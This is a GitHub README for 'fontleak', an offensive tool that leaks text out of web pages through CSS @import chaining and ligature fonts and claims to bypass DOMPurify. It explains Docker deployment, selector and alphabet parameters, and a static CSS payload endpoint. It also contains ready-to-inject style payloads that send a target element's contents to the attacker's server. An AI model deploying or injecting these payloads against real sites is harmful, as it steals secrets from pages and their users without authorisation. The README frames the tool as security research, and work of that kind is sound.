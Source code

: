 [![License](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/adrgs/fontleak)](https://github.com/adrgs/fontleak/releases)
[![GitHub stars](https://img.shields.io/github/stars/adrgs/fontleak)](https://github.com/adrgs/fontleak/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/adrgs/fontleak)](https://github.com/adrgs/fontleak/network/members)
[![GitHub contributors](https://img.shields.io/github/contributors/adrgs/fontleak)](https://github.com/adrgs/fontleak/graphs/contributors)
[![Follow @adragos_](https://img.shields.io/twitter/follow/adragos_?style=social)](https://twitter.com/adragos_)

<p align="center">
  <img width="400" alt="fontleak logo" src="https://github.com/user-attachments/assets/69d9b715-e9fc-4bc6-8e0c-b4126f44434e" />
</p>

# fontleak

Fast exfiltration of text using CSS and Ligatures. Works on Chrome, Firefox and Safari and is allowed by default by DOMPurify.


https://github.com/user-attachments/assets/b30ef845-3a98-471d-87d8-032cf113306f


## Getting Started

#### Using Docker

You can quickly get started with fontleak using Docker:

```bash
# Run the container
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 adrgs/fontleak
```

Set the `BASE_URL` environment variable to the public URL where the site will be accessible.

> This will only setup a basic HTTP/1.1 server. Use a reverse proxy like Caddy for TLS and HTTP/2 or HTTP/3.


## Using fontleak

The fontleak URL accepts several parameters to customize its behavior:

#### Parameters
- `selector`: CSS selector that matches exactly one element in the target page. Default: `SELECTOR` env var or `script:first-of-type`
- `parent`: Parent element of the target element (options: `body` or `head`). Default: `PARENT` env var or `body`
- `alphabet`: Characters to include in the font. Default: `ALPHABET` env var or `string.printable` minus whitespace (except space)
- `timeout`: Timeout for @import url(). Default: `TIMEOUT` env var or `10` seconds
- `strip`: Strip unknown characters from the leak. Default: `true`
- `length`: Length of the leak. Default: `100`
- `prefix`: Prefix to remove (or to start counter from for Safari) for the dynamic leak. Default: empty string

#### Example Usage

Basic usage:
```html
<style>@import url("http://localhost:4242/");</style>
```

Custom selector, parent, and alphabet:
```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> **⚠️ Warning:** The CSS selector must match exactly one element in the target page. If the selector matches multiple elements or no elements, fontleak will fail to exfiltrate the text.

## Environment Variables

You can configure fontleak using these environment variables:

- `BASE_URL`: Base URL where the application is accessible (e.g., http://localhost:4242)
- `FASTAPI_LOGGING`: Enable or disable FastAPI logging. Default: "true"
- `SELECTOR`: CSS selector for target element. Default: "script:first-of-type"
- `PARENT`: Parent element (body or head). Default: "body"
- `ALPHABET`: Characters to include in the font. Default: string.printable minus whitespace
- `TIMEOUT`: Timeout for @import url(). Default: 10
- `LENGTH`: Length of the payload for static leaks. Default: 100

## Static payload

By default, fontleak will use [sequential import chaining](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) to efficiently exfiltrate text. But it's not always the case that the target page CSP allows this. 

In this case, you can use the `/static` endpoint to generate a static CSS payload that only requires lax CSP for `img-src` and `font-src`.

```bash
wget http://localhost:4242/static -O payload.css
```

Which takes these additional parameters:
- `length`: Length of the payload. Default: `LENGTH` env var or `100`
- `browser`: The browser to target. Only Chrome and Firefox are supported for now. Default: `chrome`

Instead of unique ids, fontleak will group requests by (IP, User-Agent, Referer) pairs.

## Disclaimer

fontleak is a research project intended for educational and security testing purposes only. The author is not responsible for any misuse of this software. Users are solely responsible for ensuring they have proper authorization before using this tool in any environment. Use at your own risk.
